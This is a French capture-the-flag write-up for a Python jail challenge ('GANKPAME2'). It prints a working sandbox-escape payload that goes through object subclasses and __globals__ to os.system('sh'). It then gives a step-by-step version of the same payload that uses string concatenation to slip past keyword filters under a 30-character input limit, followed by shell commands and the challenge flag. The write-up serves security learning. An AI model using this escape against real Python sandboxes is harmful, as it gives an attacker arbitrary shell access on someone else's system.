# GANKPAME2
```
500 pts
```
## Description
```
Un autre jail, échappe les filtres.
nc 54.37.70.250 1004

Author: 5c0r7
```
## Solution
```
C'est du python jail, identitique à celui des phases de qualifications. Mais des filtres ont été appliquées pour empêcher
la lecture de fichier.
La longueur de l'input est de 30. Au delà de 30 , l'input est tronqué.
Nous avons uniquement droit à 11 tentatives
Il faut donc obtenir directement un shell.
Voici notre payload:
().__class__.__base__.__subclasses__()[-20].__init__.__globals__['linecache'].__dict__['os'].__dict__['system']('sh')
```

`>>> __builtins__['a']=__builtins__`



`>>> a['b']=().__class__.__base__`



`>>> a['c']=a['b'].__subclasses__`



`>>> a['d']=a['c']()[-20]`



`>>> a['e']=a['d'].__init__`



`>>> a['f']=e.__globals__`



`>>> a['g']=f['line'+'cache']`



`>>> a['h']=g.__dict__['o'+'s']`



`>>> a['i']=h.__dict__`



`>>> a['j']=i["sys"+"tem"]('sh')`



`>>>ls -a`



`>>>cat .flag`




## Flag
```
CTF_d33p_1n5Pe(tion_0bJecT_Byp@Ss_b4s!c_Fi1t3r

```


